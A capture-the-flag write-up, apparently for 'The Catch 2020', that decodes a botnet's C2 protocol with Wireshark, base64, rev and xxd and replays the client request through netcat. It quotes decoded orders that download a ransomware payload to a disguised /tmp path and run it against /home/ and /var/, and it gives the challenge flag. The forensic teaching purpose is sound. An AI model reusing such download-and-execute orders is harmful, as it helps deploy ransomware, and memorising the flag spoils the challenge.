 # The Connection

Hi executive senior investigator!

Cool, you have found the malware dropped on target computer. According to your defined procedure and your previously detected IoC (indicators of compromise), we were able to find other versions of malware in traffic dumps - we assume it is some kind of botnet client. Unfortunatelly, it looks like the C2 server has been meanwhile upgraded and although the server reacts to client's messages, the client can't decode the orders. You should investigate the communication.

Use password `ThE-CaNDc-cONNecTiOn-20` to [download the evidence](the_connection.zip)

Good luck!

---

Download and unzip the evidence:

```
$ ls
botnet_client
botnet_client.md5
```

The client is an ELF binary so let's run it under Linux:
```
$ ./botnet_client -ip 78.128.216.92 -p 20210
The Catch 2020 Botnet Client started (server on 78.128.216.92 port 20210)
Received unknown order
Received unknown order
Received unknown order
Received unknown order
Received unknown order
Received unknown order
```

Interesting fact is that the orders are being received fast in the beginning but getting slower
and slower (apparently exponentially ~ 1s, 2s, 4s, 8s, 16s, ...).
Actually, it makes sense because the client is broken
(see [Exponential backoff](https://en.wikipedia.org/wiki/Exponential_backoff)).

Capture the network traffic using _Wireshark_ and filter with `ip.addr == 78.128.216.92`.
There are the first 3 messages extracted from the TCP streams (`>` client request , `<` server response):
```
Message #1:
>
0040   .. .. 00 00 00 00 00 00 00 17 61 79 37 67 72 33   ..........ay7gr3
0050   32 76 69 38 39 6e 70 66 30 7a 3b 3b 72 65 61 64   2vi89npf0z;;read
0060   79                                                y
<
0040   .. .. 00 00 00 00 00 00 00 34 4d 6a 4d 35 4d 7a   .........4MjM5Mz
0050   51 7a 4d 44 4d 78 4d 32 49 7a 59 6a 4d 30 4e 7a   QzMDMxM2IzYjM0Nz
0060   6b 32 4d 54 59 33 4e 33 6f 77 5a 6e 42 75 4f 54   k2MTY3N3owZnBuOT
0070   68 70 64 6a 49 7a 63 6d 63 33 65 57 45 3d         hpdjIzcmc3eWE=

Message #2:
>
0040   .. .. 00 00 00 00 00 00 00 17 61 79 37 67 72 33   ..........ay7gr3
0050   32 76 69 38 39 6e 70 66 30 7a 3b 3b 72 65 61 64   2vi89npf0z;;read
0060   79                                                y
<
0040   .. .. 00 00 00 00 00 00 00 30 4e 54 4d 35 4d 7a   .........0NTM5Mz
0050   67 7a 4f 54 4e 69 4d 32 49 7a 4e 44 63 35 4e 6a   gzOTNiM2IzNDc5Nj
0060   45 32 4e 7a 64 36 4d 47 5a 77 62 6a 6b 34 61 58   E2Nzd6MGZwbjk4aX
0070   59 79 4d 33 4a 6e 4e 33 6c 68                     YyM3JnN3lh

Message #3:
>
0040   .. .. 00 00 00 00 00 00 00 17 61 79 37 67 72 33   ..........ay7gr3
0050   32 76 69 38 39 6e 70 66 30 7a 3b 3b 72 65 61 64   2vi89npf0z;;read
0060   79                                                y
<
0040   .. .. 00 00 00 00 00 00 00 30 4e 54 4d 31 4d 7a   .........0NTM1Mz
0050   4d 7a 4f 54 4e 69 4d 32 49 7a 4e 44 63 35 4e 6a   MzOTNiM2IzNDc5Nj
0060   45 32 4e 7a 64 36 4d 47 5a 77 62 6a 6b 34 61 58   E2Nzd6MGZwbjk4aX
0070   59 79 4d 33 4a 6e 4e 33 6c 68                     YyM3JnN3lh
```

Notice that all messages are padded with 7 `00` followed by the length byte.
To decode from `base64`, we must not include this length byte!
```
$ echo MjM5MzQzMDMxM2IzYjM0Nzk2MTY3N3owZnBuOThpdjIzcmc3eWE= | base64 -d
2393430313b3b347961677z0fpn98iv23rg7ya
```

Nice, looks like a hex decoded string followed by the same client ID just in reverse
(`ay7gr32vi89npf0z` vs `z0fpn98iv23rg7ya`).

Reverse the hex decoded string and decode it:
```
$ echo 2393430313b3b347961677 | rev | xxd -r -p
wait;;10492
```

Ok, we should wait... Let's rather decode more messages:
```
# Message #2:
$ echo NTM5MzgzOTNiM2IzNDc5NjE2Nzd6MGZwbjk4aXYyM3JnN3lh | base64 -d | rev | cut -c17- | xxd -r -p
wait;;9895

# Message #3:
$ echo NTM1MzMzOTNiM2IzNDc5NjE2Nzd6MGZwbjk4aXYyM3JnN3lh | base64 -d | rev | cut -c17- | xxd -r -p
wait;;9355
```

The wait value is decreasing with every new message but given the client is sending messages exponentially
slower and slower, this is going to take a long time.

Let's do better and make our own client!

The client request is always the same. Save it into file `request.bin`:
```
echo 000000000000001761793767723332766938396e7066307a3b3b7265616479 | xxd -r -p > request.bin
```

Use `nc` to replace the `botnet_client`:
```
$ (nc 78.128.216.92 20210 < request.bin) | cut -c9- | base64 -d | rev | cut -c17- | xxd -r -p
wait;;6190
```

Cool, it works. Now we can send the messages much faster!
```
wait;;5457
wait;;4593
wait;;3114
wait;;2499
wait;;1495
wait;;943
wait;;250
download;;http://challenges.thecatch.cz:20102/ransomvid1984.bin;;/tmp/apt-update
download;;http://challenges.thecatch.cz:20102/key1984.RV20;;/tmp/key
execute;;/tmp/apt-update -k /tmp/key -p /home/
execute;;/tmp/apt-update -k /tmp/key -p /var/
wait;;12859
wait;;11471
```

Call the URLs:
```
$ curl http://challenges.thecatch.cz:20102/ransomvid1984.bin
FLAG{kT0c-WTfc-S326-Jp1A}

$ curl http://challenges.thecatch.cz:20102/key1984.RV20
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA39utkD1Qtw0XEjLcZfiy
10nvC+ncTjWWxTZJ0/O5zvGzgLHJMlk8BGNhx+TcSmY9GmZfo+F0dGB6hSBj/o6z
2sbe7zxOugNTSf44nHrquN7fDP2ewX7w0loepNyX10YxOyGI+eoRt4OlVIPkTVZT
4UysJG5WGc+HwNygT/zBykEIHBT72CivrZL1keBL/Ud/okkQ9maL/ygVkKsRIpU3
yQs/eaxNHEa9jaacQAX6XHYPRyimlmCphiDkxRGvvH5o5qQLiuhQpOcJwR5NFOe3
gN99RzfWj7cc5HwUILweLJDdf9fgHEThxrf5XfY/Mp5Z/8HKh4K8iQ9pPQiiQpOD
+QIDAQAB
-----END PUBLIC KEY-----
```

[key1984.RV20.txt](key1984.RV20.txt) might be useful in the next challenge!

The flag is `FLAG{kT0c-WTfc-S326-Jp1A}`
